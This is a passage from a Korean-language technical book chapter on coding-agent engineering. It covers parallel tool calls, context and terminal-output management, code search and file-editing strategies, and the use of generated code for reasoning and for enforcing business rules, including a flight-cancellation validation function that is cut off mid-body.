현대의 Coding Agent는 스트리밍 응답을 충분히 활용해야 한다. 2장에서 모델의 출력 순서를 설명하며 이 메커니즘을 소개했다. 첫 번째 도구 호출의 매개변수가 완전히 생성되어 검증을 통과하면, 모델이 뒤의 도구 호출을 생성할 때까지 기다리지 않고 즉시 실행을 시작할 수 있다. 예를 들어 모델이 한 번의 추론에서 코드 검색, 설정 파일 확인, 로그 읽기라는 세 도구 호출을 출력해야 한다면 첫 번째 호출의 매개변수가 완성되어 검증을 통과하는 즉시 실행을 시작하고 나머지 두 호출의 생성과 겹치게 할 수 있다. 서로 독립적인 호출도 대기열에 넣지 않고 병렬로 실행할 수 있다. 이처럼 실행을 겹치면 종단 간 지연이 크게 줄어 Agent가 더 민첩하게 응답한다.

병렬 실행의 이면에는 장애 처리가 있다. 각 도구 정의는 동시 실행을 지원하는지 선언해야 한다. 기본값은 안전을 위해 지원하지 않는 것으로 둔다. 호출 하나가 실패하면 연쇄 중단 메커니즘이 같은 묶음에서 시작했고 그 결과에 의존하는 다른 호출을 종료하되, 독립된 호출이나 상위 작업에는 영향을 주지 않는다. Harness 엔지니어링 절에서 말한 ‘오류 경계 제어’ 원칙을 구체적으로 구현한 것이다.

**세밀한 컨텍스트 관리.**

Coding Agent의 근본적인 과제는 코드베이스가 대개 크지만 모델의 컨텍스트 창은 제한되어 있다는 점이다. 고급 모델이 수백만 token을 지원한다고 해도 코드베이스 전체를 컨텍스트에 집어넣는 것은 경제적이지도 필요하지도 않다. 지능적인 컨텍스트 관리는 여러 수준에서 작동해야 한다.

파일 읽기 수준에서 Agent가 언제나 파일 전체를 읽어서는 안 된다. 큰 파일에는 특정 행 범위를 읽는 도구를 지원해 수천 줄짜리 파일 전체를 불러오는 대신 100~150행만 읽을 수 있어야 한다. 더 중요한 점은 내용을 반환할 때 행 번호를 붙이는 것이다. 각 코드 행 앞에 실제 행 번호를 붙인다. 단순해 보이는 이 설계에는 큰 가치가 있다. 모델이 ‘`src/main.py`의 42행’을 정확히 가리킬 수 있어 모호함이 줄고 이후 편집 작업의 신뢰성이 높아진다.

명령 실행 수준에서는 터미널 출력도 신중하게 처리해야 한다. 컴파일이나 테스트는 수천 줄의 출력을 만들 수 있다. 이를 모두 컨텍스트에 주입하면 예산을 금세 소진한다. 4장에서 소개한 긴 출력의 잘림·보존 메커니즘을 여기에 널리 적용한다. 오류 컨텍스트가 있는 경우가 많은 처음 몇 행과 오류 요약이 있는 경우가 많은 마지막 몇 행을 남기고 가운데는 안내 한 줄로 바꾸며, 전체 출력은 필요할 때 볼 수 있도록 임시 파일에 저장했다고 알린다.

**환경 정보의 동적 주입.**

2장에서 설명한 Agent 상태 표시줄 기법이 Coding Agent에 집중적으로 나타나는 사례다. 범용 Agent와 달리 Coding Agent는 실행 환경의 상태에 크게 의존한다. 매번 추론하기 전에 다음 핵심 환경 정보를 Agent 상태 표시줄 형태로 컨텍스트 끝에 주입해야 한다.

- **현재 작업 디렉터리**: 경로 참조가 정확하게 한다.
- **Git 브랜치**: main 브랜치와 기능 브랜치 중 어디에서 작업하는지 알려 준다.
- **최근 commit 기록**: 프로젝트의 변화 과정을 이해하게 한다.
- **스테이징 전후 변경 개요**: 지금까지 어떤 사항을 수정했는지 알려 준다.

이 정보를 정적 시스템 프롬프트에 하드코딩하면 KV Cache 효율이 무너지므로, 동적으로 생성해 Agent 상태 표시줄로 뒤에 덧붙여야 한다. 그러면 Agent는 낡은 가정이 아니라 현재 상태를 정확히 이해한 바탕에서 모든 결정을 내리는 ‘환경 인식’을 얻는다.

**명령 실행 환경의 상태 지속성.**

코드를 다룰 때는 디렉터리 이동, 가상 환경 활성화, 환경 변수 설정, 백그라운드 서비스 시작처럼 환경 상태에 의존하는 작업이 많다. 명령마다 새 shell에서 실행하면 이 상태가 모두 사라진다. Agent가 `cd`로 프로젝트 디렉터리에 이동했어도 다음 명령은 다시 루트 디렉터리에서 시작하므로 같은 설정을 반복해야 한다. 더 나쁜 점은 Python 가상 환경 활성화 같은 작업의 효과는 현재 shell 세션에서만 유효해 세션 사이에 전달할 수 없다는 사실이다.

따라서 Agent가 시작할 때 만들어 전체 상호작용 동안 활성 상태로 두는 영속 터미널 세션을 유지해야 한다. 각 명령을 이 공유 터미널에서 실행해 작업 디렉터리, 환경 변수, 세션 상태를 보존한다. 이 설계는 오래 열린 터미널 창에서 작업하는 사람 개발자의 습관과도 더 잘 맞는다. 물론 병렬 작업을 위해 격리된 터미널을 시작하는 역량도 유지해야 하지만 기본 모드는 영속 세션이어야 한다.

**즉시 구문 피드백 메커니즘.**

Agent 상태 표시줄 기법의 가치를 다시 보여 준다. Agent가 코드를 수정한 뒤 사용자가 명시적으로 테스트를 요청할 때까지 구문 검사를 미뤄서는 안 된다. 더 효율적인 방법은 파일 쓰기가 끝나자마자 도구 계층이 해당 linter나 구문 검사기를 자동으로 실행하고 그 결과를 도구 반환값의 일부로 Agent에 보여 주는 것이다. 구문 오류가 있으면 Agent는 바로 다음 추론에서 자세한 오류 정보를 볼 수 있다. 프로그래머가 IDE에서 괄호를 잘못 입력하면 편집기가 즉시 빨간 밑줄을 그어 알려 주는 것과 같다. 이 즉시 피드백은 오류를 만든 순간에 바로잡게 해 테스트할 때까지 문제 발견을 미루지 않으므로 수정 비용을 크게 줄인다.

병렬·스트리밍, 컨텍스트 관리, 환경 인식, 상태 지속성, 즉시 피드백이라는 다섯 구현 기법은 효율적인 Coding Agent의 기술 기반을 함께 이룬다. 서로 떨어진 최적화 지점이 아니라 상호 강화하는 설계 결정이며, 모두 Agent가 숙련된 개발자처럼 매끄럽게 일하게 한다는 하나의 목표를 향한다.

### Coding Agent의 검색 도구

대규모 코드베이스에서 관련 코드를 찾는 일은 Coding Agent 작업의 출발점이다. 그림 5-3은 상호 보완적인 여러 검색 도구를 비교하며, 성숙한 Coding Agent가 작업 성격에 따라 검색 방식을 선택하는 방법을 보여 준다.



**정규식 내용 일치**(grep/ripgrep): 가장 전통적인 검색 방식으로, 파일 내용을 한 줄씩 훑어 패턴과 일치하는 항목을 찾는다. 찾을 정확한 텍스트(함수 이름, 변수 이름, 오류 메시지)를 Agent가 알 때 모든 위치를 빠르고 정확하게 찾을 수 있다. 정규식(특수 기호로 텍스트 패턴을 기술하는 문법. 예를 들어 `def handle.*`은 `handle`로 시작하는 모든 함수 정의와 일치한다)의 표현력은 리터럴 텍스트뿐 아니라 특정 구조를 따르는 코드 같은 복잡한 패턴도 포착한다. 실제로는 파일 유형 필터링(Python 파일만 검색)과 경로 패턴 필터링(테스트 디렉터리 제외)도 지원해 잡음을 줄여야 한다. 근본적인 한계는 텍스트 일치만 찾고 의미를 전혀 이해하지 못한다는 것이다. ‘사용자 인증’을 검색해도 로그인 로직을 처리하지만 ‘인증’이라는 단어를 쓰지 않은 함수는 절대 찾지 못한다.

**파일 이름 패턴 일치**(glob): 파일 내용을 무시하고 파일 시스템의 경로 구조에서 패턴과 일치하는 파일만 검색한다. 예를 들어 `**/*.test.ts`는 모든 TypeScript 테스트 파일을 재귀적으로 찾고, `src/components/**/Button.tsx`는 components 아래 어느 깊이에 있든 Button.tsx를 찾는다. 파일을 열어 읽을 필요가 없어 내용 검색보다 훨씬 빠르며, Agent가 프로젝트 구조를 탐색할 때 가장 먼저 사용하는 수단이다. 전체 파일 시스템을 빠르게 훑어 프로젝트의 구성 틀을 파악한다.

**의미 코드 검색**: 앞의 두 정확 일치 방식과 달리 질의와 코드의 ‘의미’를 이해하려 한다. 두 가지 핵심 문제를 해결해야 한다.

- **구조 인식 청킹**: 코드는 엄격한 구문 구조를 지니므로 고정된 문자 수로 무작정 자르지 말고 함수·클래스·메서드 같은 완전한 의미 단위로 나눠야 한다.
- **하이브리드 검색**(이 기술 스택은 3장에서 자세히 설명했다): 벡터 임베딩(밀집 임베딩)은 표현이 달라도 의미가 비슷한 코드를 찾는 데 뛰어나다. 예를 들어 ‘사용자 신원 확인’을 검색해 `check_credentials`라는 함수를 찾을 수 있다. 키워드 일치(BM25, 용어 빈도와 문서 길이에 기반한 고전 검색 알고리즘)는 함수·변수 이름을 정확히 일치시키는 데 뛰어나다. 두 검색을 병렬로 실행하고 재순위화 모델(reranker, 후보 결과의 관련성을 세밀하게 정렬하는 교차 인코더)로 결과를 병합·정렬해 상호 보완적으로 포괄한다.

의미 검색은 낯선 코드베이스에서 ‘데이터베이스와 상호작용하는’ 코드나 ‘사용자 입력 검증을 처리하는’ 코드를 찾는 탐색적 작업에 특히 적합하다.

그러나 의미 검색을 위한 임베딩 인덱스를 구축할 가치가 있는지를 두고 업계의 논쟁은 뚜렷하다. Claude Code 같은 터미널 기반 Agent는 의도적으로 **임베딩 인덱스를 만들지 않고**, agentic grep + glob만으로 즉석에서 검색한다. 코드가 변하면서 낡아지는 인덱스를 관리할 필요가 없고, 인덱싱 인프라 전체를 없애며, 코드 임베딩을 제3자 서비스에 보내는 위험을 피한다. Cursor 같은 IDE 기반 도구는 반대 접근법을 택한다. **파일 간 의미 재현율**을 얻기 위해 인덱스 구축 비용을 감수하고, 대규모 코드베이스에서 의미는 관련 있지만 표현이 다른 코드 조각을 임베딩 인덱스로 빠르게 찾는다. 두 경로의 절충은 본질적으로 ‘인프라·데이터 반출 비용’과 ‘파일 간 의미 재현율의 이점’을 저울질하는 일이다.

**기호 수준 정의·참조 검색**: IDE의 ‘정의로 이동’과 ‘모든 참조 찾기’ 기능에 기반하며 LSP(Language Server Protocol, 편집기와 언어 분석 엔진의 통신을 위한 표준 프로토콜)를 사용한다. 같은 이름의 기호라도 정의와 호출을 구분할 수 있다. 예를 들어 42행의 `authenticate`는 함수 정의이고 189행의 것은 호출이라는 사실을 안다. 텍스트 검색은 해당 문자열이 들어 있는 행을 모두 찾을 뿐이다. 이는 코드 리팩터링에 특히 중요하다. 함수 이름을 바꿀 때는 주석이나 문자열에도 함수 이름이 있을 수 있으므로 텍스트 검색에만 의존할 수 없다. 기호 검색으로 정의와 실제 호출 지점을 모두 정확히 찾아야 한다.

이 네 검색 방식은 상호 보완적인 도구 상자를 이루며 실제로는 조합해 사용하는 경우가 많다. 먼저 의미 검색으로 관련 모듈을 찾고, 정규식 일치로 구체적인 코드 행을 정확히 찾은 뒤, 기호 검색으로 호출 체인을 추적한다. ‘거친 단계에서 세밀한 단계로, 의미에서 구문으로’ 나아가는 점진적 전략이다.

### Coding Agent의 파일 편집 도구

파일 편집의 어려움은 작업 자체가 아니라 LLM으로 시스템에 ‘무엇을 어떻게 바꿀지’를 효율적이고 신뢰성 있게 알리는 데 있다. 그림 5-4는 다섯 가지 파일 편집 방식을 비교하며 인간 언어의 표현과 기계의 정밀 실행 사이에 존재하는 근본적인 긴장을 보여 준다.



**Diff 설명 + Apply 모델**: 모델이 파일 편집 방법을 직접 지정하지 않고 변경 설명을 생성한다. `git diff` 명령이 출력하는 ‘어떤 행을 지우고 어떤 행을 추가했는지’ 보여 주는 형식과 비슷한 diff 텍스트나, 생략 표식(‘여기는 그대로 유지’ 같은 주석으로 바뀌지 않은 부분을 건너뜀)을 넣은 코드 뼈대를 사용할 수 있다. 이 설명을 보통 더 작고 빠른 별도의 LLM인 전용 Apply 모델에 넘기면 원본 파일과 병합해 완전한 새 파일을 만든다. 관심사를 분리해 주 모델은 상위 수준 코드 로직에, Apply 모델은 하위 수준 텍스트 작업에 집중하게 한다. 단순한 구현의 취약점은 병합 단계에 있다. 변경 설명과 실제 파일의 코드가 조금 다를 때 같은 위치를 가리키는지 판단해야 하고, 비슷한 코드 조각이 여러 개면 잘못된 위치에 병합할 수 있다. Cursor는 이 접근법을 계속 발전시킨 대표 사례다. 주 모델은 생략 표식이 있는 코드 뼈대를 출력하고, 특별히 학습한 fast-apply 소형 모델이 파일 전체를 다시 쓰며, 추측 디코딩(원본 파일 내용을 초안으로 사용해 병렬 검증)으로 병합 속도를 초당 수천 token까지 끌어올렸다. 엔지니어링 투자로 이 접근법의 신뢰성과 속도를 확보한 것이다.

**이전 문자열 → 새 문자열**: Claude Code가 사용하는 방식이다. 모델이 교체할 원문인 이전 문자열과 대체할 새 문자열을 제공하면 프레임워크가 단순 문자열 찾기·바꾸기를 수행한다. 예측 가능하고 투명하다는 장점이 있다. 이전 문자열이 파일 안에 하나만 존재하면 성공하고, 그렇지 않으면 실패한다. 모호함이 없다. 대규모 코드 블록을 지우려면 원문 전체를 출력해야 하고 문자 하나만 달라도 일치에 실패한다는 비용이 따른다. 같은 코드가 여러 번 나타나면 더 긴 컨텍스트를 제공해 구분해야 한다.

**행 번호 지정**(이전 행 번호 → 새 문자열): 모델이 ‘X~Y행을 지우고 새 내용을 삽입하라’고 지정한다. 행 번호는 정밀하고 모호하지 않으며 큰 블록을 지울 때 숫자 두 개만 있으면 된다. 그러나 모델은 특히 파일이 매우 길 때 행 번호를 ‘세는’ 과정에서 실수하기 쉽다. 파일을 읽을 때 각 행에 번호 주석을 붙여 이 문제를 줄일 수 있지만, 편집할 때마다 뒤의 행 번호가 바뀌므로 여러 편집을 병렬로 수행하기 어렵다.

**Vim식 편집 명령**: Vim 편집기의 명령 체계에서 빌려와 복사·잘라내기·붙여넣기 같은 다양한 작업을 지원한다. 함수 하나를 다른 위치로 옮기는 코드 재구성에 매우 효율적이다. 하지만 명령 문법을 실제로 익혀야 한다. 가장 강력한 모델은 잘 처리하지만 소형 모델은 눈에 띄게 더 자주 실수한다.

**문자열 시작 + 끝 일치**(이전 문자열의 시작 + 끝 → 새 문자열): 이전 문자열 교체 방식을 개선한 형태다. 모델이 이전 문자열 전체를 출력할 필요 없이 삭제할 내용의 첫 몇 행과 마지막 몇 행만 제공하고 가운데는 생략한다. 프레임워크는 이 ‘시작+끝’ 조합이 파일에서 고유하기만 하면 두 경계를 일치시켜 교체 영역을 찾는다. 텍스트 교체의 신뢰성과 행 번호 방식의 효율을 결합한다. 큰 코드 블록을 지울 때 수백 줄의 원문을 출력할 필요 없이 경계만 보여 주면 된다. 동시에 추상적인 행 번호가 아니라 내용 일치에 기반하므로 모델의 실수 위험이 비교적 낮다.

**실용적인 조언.** 주류 Coding Agent는 대표 제품이 있는 두 경로로 갈린다. Claude Code는 구현이 단순하고 별도 모델이 필요 없는 ‘이전 문자열에서 새 문자열로’ 방식으로 신뢰성을 우선한다. Cursor는 전용 fast-apply 모델의 학습·추론 비용을 지불하고 더 높은 편집 처리량을 얻어 Apply 모델 경로를 극한까지 발전시켰다. 직접 Agent를 만든다면 ‘이전 문자열에서 새 문자열로’ 방식이 가장 안전한 출발점이다. 대규모 편집에는 ‘문자열 시작 + 끝 일치’가 더 경제적인 절충안이다. 행 번호 방식은 편집기가 실시간 행 번호 매핑을 유지하고 매번 편집한 뒤 모델에 다시 제공하는 깊은 IDE 통합이 있을 때만 신뢰할 수 있다. 그렇지 않으면 행 번호 이동 때문에 실패한다.

## 코드: 범용 Agent의 메타 역량

앞 절에서는 아키텍처와 도구 구현부터 Harness 엔지니어링까지 신뢰할 수 있는 Coding Agent를 만드는 방법을 살펴보았다. 그러나 코드 생성의 가치는 프로그램 작성에 훨씬 그치지 않는다.

> **‘메타 역량’이란 무엇인가?** 일반적인 역량은 질문에 답하고 특정 API를 호출하고 글을 생성하는 것처럼 Agent가 어떤 구체적인 일을 하는 능력이다. **메타 역량**은 ‘다른 역량을 만들어 낼 수 있는’ 능력이다. 모든 역량을 미리 만들어 두지 않아도 Agent가 작업을 완수하는 데 필요한 새 도구, 새 제약, 새 표현 형식을 그 자리에서 작성한다. 코드 생성은 정확하고 실행 가능하며 조합할 수 있으므로 새로운 도구(스크립트, API 호출 순서), 새로운 제약(assertion, 검증 규칙), 새로운 표현 형식(HTML 양식, PPT, 동영상 프레임)을 만들 수 있는 바로 그런 메타 역량이다.

따라서 Agent 시스템에서 코드의 역할은 ‘프로그램 작성’을 훨씬 넘어선다. 다음 여섯 절에서는 이 메타 역량을 프로그래밍 너머에 적용하는 여섯 방향을 하나씩 보여 준다. (1) 생각 도구—자연어 대신 코드로 엄밀하게 추론한다. (2) 비즈니스 규칙 제약—코드로 정책을 고정해 모델의 환각을 피한다. (3) 멀티미디어 생성—코드로 PPT·동영상·시각화를 만든다. (4) 시스템 어댑터—코드로 이질적인 API를 연결한다. (5) 생성형 UI—코드로 양식과 인터페이스를 동적으로 생성한다. (6) 부트스트래핑—코드로 새 Agent를 만든다.

여섯 방향은 단순히 나란히 놓인 목록이 아니라 ‘메타 역량의 대상’을 기준으로 안에서 밖으로 구성된다.

1. **생각 자체**—오류가 발생하기 쉬운 자연어 추론을 코드로 대체한다(생각 도구).
2. **비즈니스 규칙**—모호한 정책을 실행 가능한 제약으로 코드화한다(비즈니스 규칙 제약).
3. **콘텐츠 표현**—PPT, 동영상, 시각화 산출물을 생성한다(멀티미디어 생성).
4. **시스템 인터페이스**—이질적인 API 사이를 잇고 데이터 형식의 변화에 자동으로 적응한다(시스템 어댑터).
5. **사용자 인터페이스**—양식과 대화형 인터페이스를 동적으로 구성한다(생성형 UI).
6. **Agent 자체**—코드로 새 Agent를 만들어 부트스트랩을 이룬다(가중치를 바꾸지 않는 8장의 ‘자기 진화’와는 다르다).

이 흐름을 따라 안에서 밖으로 나아가 마침내 Agent 자신에게 돌아오면 메타 역량으로서 코드가 지닌 통일된 가치를 더 쉽게 볼 수 있다. 필요할 때 새 도구를 만드는 일은 이 메타 역량을 한층 확장한 것으로 8장에서 자세히 설명한다.

### 생각 도구로서의 코드

LLM은 자연어 이해와 생성에는 놀라울 만큼 뛰어나지만 정밀 계산, 기호 조작, 엄격한 논리적 연역에는 근본적으로 약하다. 모델의 생각은 본질적으로 확률적이고 근사적인 반면 수학·논리 문제는 결정적이고 정확한 답을 요구하기 때문이다. 구체적인 비교 하나로 이를 확인해 보자.

```
문제: ‘한 학급에 학생이 40명 있다. 60%는 수학을, 45%는 물리학을 수강하고,
      25%는 둘 다 수강한다. 수학은 듣지 않고 물리학만 듣는 학생은 몇 명인가?’

순수 자연어 추론(오류가 나기 쉬움):                   코드 추론(정확하고 검증 가능함):
‘수학 수강생 60% = 24명,                           math = int(40 * 0.60)    # 24
 물리학 수강생 45% = 18명,                         phys = int(40 * 0.45)    # 18
 둘 다 수강하는 학생 25% = 10명,                   both = int(40 * 0.25)    # 10
 물리학만 수강 = 24 - 10 = 14명’                   only_phys = phys - both  # 8
→ 수학 수강생 수에서 잘못 빼서 오답                     → print(only_phys)  # 8 ✓
```

LLM은 문제를 이해하고 코드를 작성하며, 코드 인터프리터는 정밀 계산을 맡게 하라. 이러한 분업은 각자의 강점을 살린다.

Mathematica를 만든 Stephen Wolfram은 이와 관련해 깊이 있는 통찰을 제시했다. LLM이 등장하기 전에도 이미 정밀한 수학 계산을 수행하는 시스템이 있었다. 이들은 근삿값 대신 수학 기호를 사용해 식을 처리하는 **기호 계산**(Symbolic Computation)을 사용했다. 일반 계산기는 $\sqrt{2}$를 1.414로 계산하지만 기호 계산 시스템은 정확한 형태인 $\sqrt{2}$를 유지하다가 필요할 때만 소수로 바꾼다. Wolfram이 만든 Wolfram Alpha가 바로 그런 시스템이다. 사용자가 수학 문제를 입력하면 정확한 답을 반환한다. 그러나 자연어 이해가 상당히 취약하고 처리 범위도 좁다. 내장 문법 parser에 의존해 제한된 표현만 알아보므로 표현을 조금만 바꿔도 파싱에 실패할 수 있으며, 개방형 다단계 추론은 당연히 처리하지 못한다. LLM은 이 빈틈을 완벽하게 메운다. 다양한 자연어 표현을 이해하는 데 뛰어나지만 정밀 계산에는 약하기 때문이다. 새로운 협업 모델에서는 LLM이 사용자의 자연어 질문을 이해하고 그 안의 수학·논리 구조를 찾아 Mathematica 언어나 Python의 SymPy 라이브러리 같은 형식 언어로 바꾼다. 그런 다음 전용 기호 계산 엔진이나 제약 솔버에 실행을 맡겨 정확한 결과를 얻는다.

> **실험 5-1 ★★: 코드 생성 도구로 수학 문제 풀이 역량 높이기**
>
> **실험 목표**: 코드 인터프리터의 도움을 받은 Agent가 수학적으로 생각할 때 정확도가 얼마나 향상되는지 검증한다.
>
> **기술 방안**: sympy, numpy, scipy 같은 수학 라이브러리가 설치된 Python 샌드박스를 Agent에 제공한다. 수학 문제를 만나면 Agent가 Python 코드로 형식화한다. sympy로 기호 계산(미적분, 방정식 풀이), scipy로 수치 최적화, numpy로 행렬 연산을 수행한다. 생성한 코드를 샌드박스에서 실행해 정확한 결과를 반환한다.
>
> **인수 기준**: AIME(미국 수학 초청 시험)를 본뜬 문제로 평가한다. 순수 사고 사슬 생각과 코드 보조 생각의 정확도를 비교해 코드 보조 모드가 유의미하게 높아야 한다. 코드가 수학 라이브러리를 올바르게 사용하는지, 풀이 과정이 논리적으로 명확한지 확인한다.
>

> **실험 5-2 ★★: 코드 생성 도구로 논리적 추론 역량 높이기**
>
> **실험 목표**: 제약 풀이 코드의 도움을 받아 논리적으로 추론하는 Agent의 역량을 평가한다.
>
> **기술 방안**: python-constraint 라이브러리가 있는 코드 인터프리터를 Agent에 제공한다. Agent는 기사와 악당 문제(Knights and Knaves) 같은 논리 퍼즐을 형식적인 제약 정의로 바꾼다. 모든 변수(섬 주민 각각의 정체), 제약(‘기사는 진실을 말한다’에서 도출되는 조건)을 식별하고 제약을 정의한 뒤 솔버를 호출해 모든 제약을 만족하는 해를 찾는다.
>
> **인수 기준**: [K&K Puzzle 데이터셋](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves)으로 평가한다. 코드 보조 모드의 정답률이 90%를 넘고 순수 생각 모드보다 유의미하게 높아야 한다.
>

이 실험은 모델과 Harness가 서로 절충 관계에 있다는 더 일반적인 패턴도 드러낸다. 모델이 충분히 강하면 Harness는 얇아도 된다. 모델이 스스로 정확히 추론하므로 코드 솔버의 추가 이득이 작아진다. 모델이 약하면 Harness가 더 많은 일을 해야 한다. 핵심 논리 추론을 코드와 제약 솔버에 넘겨 정확성을 보장한다. 이 실험이 의도적으로 약한 모델을 사용하는 이유도 대비를 키우기 위해서다. 약한 모델은 순수 생각에서 계속 계산을 틀리지만 코드 보조를 받으면 정확도가 크게 높아진다. 충분히 강력한 사고 모델은 순수 생각만으로 퍼즐을 모두 푸는 경우가 많아 코드 보조의 이득이 거의 0에 수렴한다. 따라서 Harness의 두께는 모델 역량의 경계에 따라 달라져야 한다. 어떤 Agent 기법을 평가할 때나 놓치기 쉬운 전제가 있다. 같은 Harness도 역량이 서로 다른 모델과 결합하면 정반대 결론을 뒷받침할 수 있다.

### 비즈니스 규칙의 제약으로서의 코드

이 절은 앞의 Harness 엔지니어링 절에 직접 대응한다. Harness의 핵심 원칙 가운데 하나는 ‘제약은 문서화하지 말고 코드화한다’다. 자연어 문서의 규칙을 실행 가능한 코드로 바꿔 권고성 안내가 아니라 시스템 행동에 대한 강제 제약으로 만든다. 코드 생성은 Agent가 이 변환 과정을 자율적으로 수행하게 한다.

자연어로만 설명한 비즈니스 규칙·작업 흐름·의사 결정 논리는 모호함으로 가득하다. ‘합리적인 환불 요청’은 무엇인가? 무엇을 ‘긴급 상황’으로 볼 것인가? 자연어로는 경계를 정의하기 어렵다. ‘구매 후 7일 안에는 환불할 수 있다’는 말은 명확해 보이지만 달력일까, 영업일까? ‘구매’는 주문 시점일까, 배송 시점일까? 반면 코드는 모호하지 않고 실행 가능한 지식 표현이다. 실행되거나 오류가 날 뿐 중간은 없다.

**복잡한 비즈니스 규칙의 정밀한 표현.**

**자연어 규칙과 코드화한 규칙: 대체가 아니라 보완 관계**

규칙을 시스템 프롬프트에 넣으면 모델이 규칙을 바탕으로 사용자에게 **정책을 설명**하고, **대안을 찾고**(예: ‘취소 대신 예약 변경’), 도구를 호출하기 전에 실현 가능성을 먼저 판단할 수 있다는 장점이 있다.

규칙을 검증 도구로 코드화하면 코드 로직이 **정밀하고 모호하지 않아** ‘오해’가 생기지 않으며, 코드 실행은 **결정적**이어서 같은 입력에 언제나 같은 출력을 내놓는다. 다중 조건의 불리언 조합, 시간 계산, 여러 데이터 소스를 아우르는 검증 같은 **복잡한 규칙 조합**에 특히 적합하다.

실제로는 둘을 함께 사용해야 한다. 시스템 프롬프트에는 이해와 소통을 위한 자연어 규칙을 넣고, 핵심 의사 결정 지점에는 규정 준수를 보장하는 ‘문지기’ 역할의 코드화한 검증 도구를 둔다.

코드화한 규칙의 진정한 가치는 token 효율이 아니라 **되돌릴 수 없는 실수를 막는 것**이다. 주문 취소, 자금 송금, 데이터 삭제는 한 번 실행하면 되돌릴 수 없다. 코드화한 검증은 작업 직전에 최후의 방어선을 놓으며, 이 보장이 주는 가치는 구현 비용을 훨씬 능가한다.

**검증과 실행의 결합: 체크리스트로 생각을 유도하고 참값 검증으로 관문 지키기**

별도의 검증 도구를 만들기보다 실행 도구 내부에서 먼저 검증하게 한다. τ-bench(항공사와 전자 상거래 고객 서비스 상황을 시뮬레이션하며 Agent의 도구 호출과 정책 준수 역량을 평가하도록 특별히 설계된 벤치마크)의 항공권 취소 정책을 예로 들어 보자.

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # 선택 사항: 모델 자기 점검용. 서버는 DB 참값으로 검증
    expected_has_insurance: bool = None  # 선택 사항: 모델 자기 점검용. 위와 동일
) -> dict:
    """
    항공권 예약을 취소한다.

    취소 정책(데이터베이스 참값을 바탕으로 서버에서 강제함):
    - 규칙 1: 사용한 구간이 하나라도 있는 예약은 취소할 수 없다.
    - 규칙 2: 예약 후 24시간 안에는 조건 없이 취소할 수 있다.
    - 규칙 3: 항공사가 취소한 항공편은 언제나 취소할 수 있다.
    - 규칙 4: 비즈니스 클래스는 언제나 취소할 수 있다.
    - 규칙 5: 베이직 이코노미와 이코노미는 여행자 보험이 있어야 취소할 수 있다.

    호출하기 전에 주문 상세 정보를 조회하고 위 규칙을 하나씩 확인하라. expected_* 매개변수는
    판단 근거를 명시하기 위한 것으로 서버 측 비교·감사에 사용되며 정책 판단에는 영향을 주지 않는다.
    """
    # 모든 정책 사실은 데이터베이스에서 읽고 모델이 보고한 값은 절대 믿지 않는다.
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # 모델이 제공한 값이 아니라 서버 시계

    # 모델의 자기 보고 값이 참값과 다르면 경고를 기록해 잘못된 믿음이나 주입 가능성을 탐지한다.
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "사용한 구간이 있어 취소할 수 없음"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "24시간 이내 취소"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "항공사가 항공편을 취소함"}

